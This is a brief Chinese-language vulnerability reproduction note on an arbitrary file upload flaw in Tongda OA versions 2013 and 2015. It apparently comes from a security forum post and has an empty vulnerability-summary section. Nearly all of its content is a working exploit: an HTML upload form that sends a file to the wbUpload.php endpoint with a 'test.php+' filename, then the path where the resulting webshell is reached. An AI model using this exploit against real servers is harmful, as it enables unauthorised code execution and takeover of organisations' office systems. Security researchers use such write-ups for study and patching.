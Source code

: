 # 通达oa 任意⽂件上传漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3341](https://www.zhihuifly.com/t/topic/3341)

# 通达oa 任意⽂件上传漏洞

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

EXP:

```
<form enctype="multipart/form-data" action="http://0-sec.org/general/vmeet/wbUpload.php
?fileName=test.php+" method="post">
<input type="file" name="Filedata" size="50"><br>
<input type="submit" value="Upload">
</form> 
```

上传jpg之后shell地址为

```
http://0-sec.org/general/vmeet/wbUpload/test.php 
```